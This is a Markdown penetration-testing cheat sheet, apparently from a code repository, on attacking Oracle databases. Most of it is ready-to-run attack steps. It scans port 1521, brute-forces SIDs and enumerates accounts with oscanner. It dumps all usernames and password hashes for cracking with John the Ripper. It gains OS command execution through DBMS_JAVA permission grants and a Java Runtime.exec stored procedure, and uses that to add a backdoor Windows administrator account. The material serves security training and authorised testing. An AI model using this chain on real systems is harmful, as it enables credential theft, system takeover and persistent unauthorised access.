 # ORACLE Database Cheat Sheet
This module will provide us with enough information to get going with a compromised Oracle database.

## Database Discovery
Nmap can be used to discover a database running on our target system like so,

`nmap -A -p 1521 (TARGET IP ADDRESS)`

## Database Enumeration
Once discovered, we can perform some light and heavy enumeration. We must be careful not to lock out any accounts.

### NMAP NSE Scripts
Nmap can be used to brute force a SID from an Oracle service. This is essentially the Database name. I would recommend building your own oracle-sids file to use from your other service / os / etc enumeration results. Even the hostname / domain names can be added to this file.

`nmap --script oracle-sid-brute -p 1521 (TARGET IP ADDRESS)`

### OScanner
[oscanner](https://tools.kali.org/vulnerability-analysis/oscanner) is a tool that can be used to enumerate users and passwords from a database.

`root@kali:~# oscanner -s (TARGET IP ADDRESS)`

## SQL Syntax
We can issue the following commands with an interface to the database. This could be SQLPlus, or DBeaver.

### Get all Usernames and Hashed Passwords:
To concatenate the usernams and passwords with a colon to be used by John the Ripper, do:

`SELECT Username || ':' || PASSWORD AS credentials FROM DBA_USERS;`

## SYSTEM-Level Command Excecution
**Step 1: Add the correct permissions.** 

This PL/SQL query will take a minute or two to complete and cannot be done using __dbeaver__, it must be done with the __sqlPlus>__ client provided by __Oracle__ to avoid a serious escaping issue with the driver used by dbeaver.
```
DECLARE
  l_schema VARCHAR2(30) := 'SYSTEM';
BEGIN
  DBMS_JAVA.grant_permission(l_schema, 'java.io.FilePermission', '<<ALL FILES>>', 'read ,write, execute, delete');
  DBMS_JAVA.grant_permission(l_schema, 'SYS:java.lang.RuntimePermission', 'writeFileDescriptor', '');
  DBMS_JAVA.grant_permission(l_schema, 'SYS:java.lang.RuntimePermission', 'readFileDescriptor', '');
END;
/
```
If successful, it will say *PL/SQL procedure successfully completed.* If using SQLPlus, don't worry about the added numbers, that is a flaw with the terminal / shell in the garbage Oracle code for SQLPlus; it will be ignored when executed.

**Step 2: Create Java Code to Execute:**

This SQL will create a Java class called `mycmd` and a method in the class called `execCommand`.

```
CREATE OR REPLACE AND RESOLVE JAVA SOURCE NAMED "mycmd" AS
import java.lang.*;
import java.io.*;
 
public class mycmd
{
 public static void execCommand (String command) throws IOException
 {
     Runtime.getRuntime().exec(command);
 }
};
/
```
If successful you will see *Java created.*

**Step 3: Create a Procedure**

```
CREATE OR REPLACE PROCEDURE run_cmd (p_command IN VARCHAR2)
AS LANGUAGE JAVA
NAME 'mycmd.execCommand (java.lang.String)';
/
```
If successful, you will see *Procedure Created*.

**Step 4: Execute Commands (__1 COMMAND AT A TIME__):**

`exec run_cmd('net user npn pwned12345 /add');`

`exec run_cmd('net localgroup Administrators npn /add');`

If each command is successful, you will see *PL/SQL procedure successfully completed.*. If there is a failure, start the whol process over from step 1 and make sure that the formatting is correct and that each SQL query completes successfully. If you accidentally try two commands at once, you will be disobeying the interface of the class / method of mycmd.execCommand and the server will restart your SQL session and you will have to start over again anyways.
